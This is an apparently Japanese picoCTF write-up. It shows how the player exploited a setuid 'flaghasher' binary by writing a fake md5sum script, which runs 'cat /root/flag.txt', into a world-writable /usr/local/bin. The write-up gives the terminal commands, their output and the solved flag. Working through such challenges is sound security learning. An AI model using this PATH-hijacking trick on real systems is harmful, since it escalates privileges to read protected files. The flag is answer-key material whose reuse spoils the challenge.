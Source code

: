 <br /><br />

ヒアドキュメント ＋ tee コマンドでファイルを作ることにしました。

以下を参考にさせてもらいました。

https://te2u.hatenablog.jp/entry/2015/07/01/224505

<br />

<pre>
ctf-player@pico-chall$ cat <<'EOT' | tee /usr/local/bin/md5sum
> #!/bin/bash
> cat /root/flag.txt
> EOT


ctf-player@pico-chall$ ls -al /usr/local/bin/
total 24
drwxrwxrwx 1 root       root          20 Mar 16 09:55 .
drwxr-xr-x 1 root       root          17 Oct  6  2021 ..
-rwsr-xr-x 1 root       root       18312 Mar  6 19:42 flaghasher
-rw-rw-r-- 1 ctf-player ctf-player    31 Mar 16 09:55 md5sum


ctf-player@pico-chall$ chmod 755 /usr/local/bin/md5sum

ctf-player@pico-chall$ flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_5547c7aa}
</pre>

<br />

Flag: `picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_5547c7aa}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

